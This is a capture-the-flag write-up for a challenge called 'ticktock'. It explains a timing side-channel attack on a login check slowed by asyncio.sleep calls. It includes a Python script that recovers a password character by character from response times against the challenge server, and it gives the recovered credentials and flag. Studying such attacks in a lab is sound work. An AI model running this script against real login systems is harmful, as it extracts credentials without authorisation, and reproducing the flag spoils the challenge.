

# ticktock
by [Hal0g3n](https://github.com/Hal0g3n)
> Looks like you can login without any extra hints. Just remember to keep track of the time you spend on this challenge. Dont get too carried away!
## Solution
This had 0 solves until the admin dropped their insane hint

<center>🙏 Thank you @bbbb 🙏</center>

Woah! Look at all the `asyncio.sleep`. Wonder if we could exploit that?🤔oh we could, with a side channel attack called timing attack!

# Timing Attack
> "The more something matches, the longer it takes to distinguish"

While we could just randomly submit our passwords and usernames, hoping for RNGesus, we could also try and get more information indirectly. One such info could be the time taken to check string equality (especially with allothose `asyncio.sleep`. 

Let us just take `return` statements as instant, and every check takes 0.01s.

First check is string length. If our string length were correct it would take 0.01s longer (significant when program runs in miliseconds). So by trying every string length, we could see for which string length the website took the longest to respond.

After getting that correct, we use the same idea on each character, starting from the front. If it were right, then the website response would take 0.01s longer than for every other character. Rinse and Repeat, until you got the username and then move on to the password.

**Sample Script (for `pwd`)**
```python
# Answers to find
usr = "0p3nr4leaf"
pwd = "r1g3boj8455871326i3w"

# Imports
import string, requests

i = 0
while i != len(pwd):

	# Keep a list of timings for each character
	result = []

	# For each character
	for c in string.ascii_lowercase + string.digits:

		# Sub it in and check timing
		r = requests.get(f"http://157.245.52.169:31662/flag?username={usr}&password={pwd[:i] + c + pwd[i+1:]}")

		# Add it to timings
		result.append((r.elapsed.total_seconds(), c))

	# Sort by timing
	result.sort()
	
	# Gets the character (slowest character)
	ans = result[-1]
	pwd = pwd[:i] + ans[1] + pwd[i+1:]

	# Slowly print out answer and increment
	print(pwd)
	i += 1
```
At this point each request is taking 2 seconds, a significant amount of time. But alast, we got the username and password. After using the retrieved username and password we get the flag 🚩!

Flag: `STF22{Play_OpenRA_d44149ca5ec9b17d}`